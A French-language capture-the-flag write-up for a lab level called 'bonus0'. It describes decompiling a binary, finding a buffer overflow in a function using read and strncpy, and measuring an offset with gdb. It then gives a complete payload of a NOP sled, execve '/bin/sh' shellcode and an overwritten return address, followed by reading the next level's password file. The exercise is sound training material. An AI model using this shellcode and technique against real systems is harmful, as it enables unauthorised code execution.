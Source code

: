 # Bonus 0
---

###### Étape 1 : -- Décompiler le programme --

En décompilant le programme avec Dogbolt ou Ghidra, on voit dans le programme 3 fonction p, pp, main: 

On vois que la fonction ___p___ contient un __read__, un __buffer[4096]__ et un __strncpy__

C'est ces fonction que l'on vas casser pour exec un shell code 

en faisant crash le programe avec gdb on obtient un offset de ==9==.

on trouve aussi l'addresse du second parametre de read dans la fonction p -> ==0xbfffe670==

###### Étape 3: -- Execution --

Avec offset, et l'addresses , on crée un one-liner python pour executer un payload pour lire le .pass du prochain level.

On augment l'address de 80 pour toucher dans la zone de NOP que l'on vas creer -> ==0xbfffe670== + 80 = ==0xbfffe6c0==

Contruction du payload: 
> (python - c 'print "\x90" * 100 + [shellcode]'; python -c 'print "A" * [offset] + "[address + 80] + "B" * [strnpy(copy len) - len(address) - len(A * [offset])]'; cat -) | ./binary 

Payload final :
```bash
(python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' ; python -c 'print "A" * 9 + "\xc0\xe6\xff\xbf" + "B" * 7'; cat -) | ./bonus0
```

Dans le terminal on execute la commande suivante pour récupérer le password du bonus1:

```bash
cat /home/user/bonus1/.pass
```
